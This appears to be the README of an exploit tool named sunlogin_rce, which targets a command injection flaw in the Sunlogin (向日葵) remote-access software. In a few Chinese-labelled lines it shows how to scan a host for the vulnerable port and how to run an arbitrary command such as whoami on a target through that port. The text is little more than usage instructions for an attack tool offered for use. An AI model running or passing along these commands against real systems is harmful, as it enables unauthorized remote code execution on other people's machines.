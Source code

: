 # sunlogin_rce

向日葵 命令注入（rce）利用
sunlogin_rce.exe  -H 192.168.10.129  扫描存在rce端口
sunlogin_rce.exe  -H 192.168.10.129 -P 31528 -C whoami  执行命令
